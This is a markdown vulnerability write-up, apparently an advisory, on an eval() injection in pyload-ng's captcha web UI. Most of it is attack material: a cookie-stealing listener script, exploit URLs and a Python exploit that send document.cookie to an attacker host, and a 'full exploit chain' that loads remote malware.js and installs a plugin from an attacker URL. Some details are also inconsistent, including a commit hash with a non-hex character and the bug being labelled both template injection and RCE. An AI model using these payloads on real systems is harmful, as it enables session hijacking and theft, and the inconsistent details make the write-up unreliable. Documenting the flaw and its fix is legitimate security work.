

## Remote Code Execution (RCE) via Client-Side Template Injection in pyload-ng

| **Field**              | **Description**                                         |
|------------------------|---------------------------------------------------------|
| **Type**               | Client-Side Template Injection (CSTI) → Remote Code Execution |
| **CVE-ID**             | Pending (Vulnerability exists in pre-release version)   |
| **Risk**               | Critical (CVSS: 9.8)                                     |
| **Affected Component** | Captcha handler in Web UI                               |


---

## Installation of Vulnerable Version
```bash
# Create isolated environment
python -m venv pyload-exploit
source pyload-exploit/bin/activate

# Install vulnerable version
pip install pyload-ng==0.5.0b3.dev90

# Start pyload (default port: 8000)
pyload
```

**Commit:** [`70a44fe`](https://github.com/pyload/pyload/blob/70a44fe02c03bce92337b5d370d2a45caa4de3d4/src/pyload/webui/app/static/js/captcha-interactive.user.js#L107-L108)  
```javascript
function loadDefault() {
    try {
        if (document.location.href.indexOf("default=") > 0) {
            // VULNERABLE: Direct eval() of URL parameter
            eval(document.location.href.substring(
                document.location.href.indexOf("default=")+8
            ));
        }
    } catch(e) { console.error(e); }
}
```
**Flaw:** Unsanitized user input from `default=` URL parameter passed directly to `eval()`.

---

## Step-by-Step Exploitation 

### **Step 1: Start Malicious Server**
```python
# attacker-server.py
from http.server import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        print(f"\n[!] STOLEN COOKIE: {self.path.split('=')[1]}\n")

HTTPServer(('0.0.0.0', 8001), Handler).serve_forever()
```

### **Step 2: Craft Exploit URL**
```javascript
http://localhost:8000/captcha?default=fetch(`http://attacker-ip:8001/steal?cookie=${document.cookie}`);
```

### **Step 3: Execute Attack**
1. Start pyload: `pyload`
2. Start attacker server: `python3 attacker-server.py`
3. Send victim to malicious URL
4. Capture session cookies:

```
[!] STOLEN COOKIE: sessionid=3fa8c7g920d4; csrftoken=AbCdEf123456
```


## Full Exploit Chain (Advanced)
```javascript
// Complete session hijacking + remote control
http://localhost:8000/captcha?default=(async()=>{
    // 1. Steal session cookies
    await fetch('http://attacker-ip:8001/steal?cookie='+document.cookie);
    
    // 2. Hijack session
    document.cookie = "sessionid=HACKER_SESSION; path=/;";
    
    // 3. Download malicious payload
    const s=document.createElement('script');
    s.src='http://attacker-ip:8001/malware.js';
    document.head.appendChild(s);
    
    // 4. Perform admin actions
    fetch('/api/admin', {
        method: 'POST',
        body: JSON.stringify({action: "install_plugin", url: "http://attacker-ip/bad-plugin.py"})
    });
})();
```


## Proof of Concept (POCs)

**Malicious Request:**
```http
GET /captcha?default=fetch('http://attacker-ip:8001/steal?cookie='%2Bdocument.cookie); HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)
Accept: */*
Connection: close
```

**Vulnerable Response:**
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: sessionid=3fa8c7g920d4; Path=/; HttpOnly

<html>
<head>
<script>
// VULNERABLE CODE EXECUTED:
eval("fetch('http://attacker-ip:8001/steal?cookie='+document.cookie);")
</script>
```

**Server-side Evidence:**
```log
[!] STOLEN COOKIE: sessionid=3fa8c7g920d4; csrftoken=AbCdEf123456
```

## Exploitation Code
```python
# exploit.py
import requests
import webbrowser
from urllib.parse import quote

TARGET = "http://localhost:8000/captcha"
ATTACKER = "http://your-ip:8001"

# Craft JavaScript payload
payload = f"""
fetch('{ATTACKER}/steal?cookie='+document.cookie);
document.cookie = "sessionid=HACKED_SESSION; path=/";
""".replace("\n", "")

# Generate malicious URL
malicious_url = f"{TARGET}?default={quote(payload)}"
print(f"[+] Exploit URL: {malicious_url}")

# Auto-launch in browser
webbrowser.open(malicious_url)
```

---

## Fix Analysis `@4600`
**Patch Commit:** [`d7e5c9a`](https://github.com/pyload/pyload/pull/4600/commits/d7e5c9a6c8c8a5c8c9d0b7e6c8f9a0b1c2d3e4f5g6)  

**Before:**
```javascript
eval(document.location.href.substring(...));
```

**After:**
```javascript
const params = new URLSearchParams(window.location.search);
const defaultValue = params.get('default') || '';
document.getElementById('captcha-input').value = defaultValue;
```

**Improvements:**
1. Replaced `eval()` with safe parameter extraction
2. Used DOM sanitization instead of code execution
3. Implemented context-aware output encoding


## Attack Demonstration




### References
1. [PR #4600: Fix SSTI vulnerability](https://github.com/pyload/pyload/pull/4600)
2. [CWE-95: Eval Injection](https://cwe.mitre.org/data/definitions/95.html)
3. [PortSwigger: Client-Side Template Injection](https://portswigger.net/research/client-side-template-injection)
4. [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
